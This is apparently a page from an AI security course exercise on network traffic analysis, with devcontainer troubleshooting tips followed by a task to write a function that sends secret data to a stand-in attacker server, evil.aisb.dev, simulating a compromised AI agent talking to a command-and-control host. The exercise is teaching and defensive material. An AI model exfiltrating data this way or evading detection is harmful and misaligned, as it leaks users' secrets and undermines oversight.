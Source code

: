 ### Troubleshooting
Today's setup is a bit more complicated. If you run into issues, try some of these steps:
- If you have problems installing the `docker-in-docker` feature in your devcontainer, comment out the respective line (`"ghcr.io/devcontainers/features/docker-in-docker:1": {}`) in the [devcontainer.json](../.devcontainer/devcontainer.json) file. Without it, you won't be able to run docker commands inside the devcontainer, but you should still be able to run them from the host machine (e.g., outside of VS Code).
- Stop your containers with Ctrl+C (if they are in foreground) or `docker-compose down` (if they are in background), and start them again with container rebuild: `docker-compose up --build`.
- Make sure you have the latest version of the repository pulled. Try "Dev Containers: Rebuild and Reopen in Container" action in VS Code.
- If you cannot start the containers with `docker-compose up` inside the Dev Container, try running it from the host machine instead. You can do this by opening a terminal in the `w1d2` directory outside of VS Code and running `docker compose up --build`.

### Side-note: Pair programming
<details><summary>
You had an opportunity to pair up with a partner on your first day. Now that you have tried what it feels like, you can expand this section for a few tips that can make it easier for you.</summary></details>


## 1️⃣ Network Traffic Analysis with Wireshark


```python

import os
pass  # Ignore this line
```

### Exercise 1: Making HTTP Requests to External Servers

> **Difficulty**: 🔴⚪⚪⚪⚪
> **Importance**: 🔵🔵⚪⚪⚪
>
> You should spend up to ~5 minutes on this exercise.

In this exercise, you'll implement an AI agent that attempts to communicate with an external server. This simulates a scenario where a compromised or malicious AI agent tries to exfiltrate data or receive commands from an attacker-controlled server.

The agent will start with a simple HTTP GET request to `evil.aisb.dev`. In later exercises, we'll explore how defenders can detect and block these communications, and how attackers might try to evade detection.

<details><summary>Background: Why AI Agents Might Make External Requests</summary></details>

Implement the `make_evil_request` function that sends a GET request to the evil server with a secret message. This will go into the **`w1d2_answers_agent.py` file**.


```python

import base64
import time

from typing import Optional, Dict, Any
from unittest.mock import patch, MagicMock
import requests


def make_evil_request(secret_data: str) -> Optional[str]:
    """
    Send a GET request to evil.aisb.dev with secret data.

    This simulates an AI agent attempting to communicate with an external C2 server.
```